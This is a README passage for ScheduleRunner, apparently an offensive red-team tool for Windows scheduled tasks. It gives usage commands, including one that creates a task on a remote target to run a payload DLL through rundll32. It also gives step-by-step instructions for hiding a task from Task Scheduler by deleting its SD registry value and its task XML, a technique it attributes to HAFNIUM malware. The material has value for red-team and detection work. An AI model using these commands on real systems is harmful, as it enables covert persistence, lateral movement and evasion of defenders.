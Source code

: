 ### [*] Required Fields

## Example Usage

Here are some example commands for creating, querying, deleting, and moving scheduled tasks:

- **Create a scheduled task "Cleanup" that runs daily at 11:30 p.m.**
  
  ```bash
  ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:daily /starttime:23:30 /program:calc.exe /description:"Some description" /author:netero1010
  ```

- **Create a scheduled task "Cleanup" every 4 hours on a remote server.**

  ```bash
  ScheduleRunner.exe /method:create /taskname:Cleanup /trigger:hourly /modifier:4 /program:rundll32.exe /argument:c:\temp\payload.dll /remoteserver:TARGET-PC01
  ```

- **Delete a scheduled task "Cleanup".**

  ```bash
  ScheduleRunner.exe /method:delete /taskname:Cleanup
  ```

- **Execute the scheduled task "Cleanup".**

  ```bash
  ScheduleRunner.exe /method:run /taskname:Cleanup
  ```

## Hiding Scheduled Task Technique

This technique, used by **HAFNIUM** malware, hides the task from Task Scheduler and makes it unqueriable by regular tools. The following actions are performed to hide a task:

1. Delete the "SD" value from `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Schedule\TaskCache\Tree\[task name]`
2. Remove the XML file located at `C:\Windows\System32\Tasks\[task name]`

### Limitations

The task remains active until the next system reboot, even after deletion. Avoid using this technique on servers that will be rebooted frequently.

### Demo

![HowTo](https://github.com/netero1010/ScheduleRunner/raw/main/hiding_scheduled_task.png)

## Libraries and References Used

| **Library**     | **Link**                                                                  |
| --------------  | ------------------------------------------------------------------------- |
| `TaskScheduler` | [GitHub - TaskScheduler](https://github.com/dahall/TaskScheduler)         |
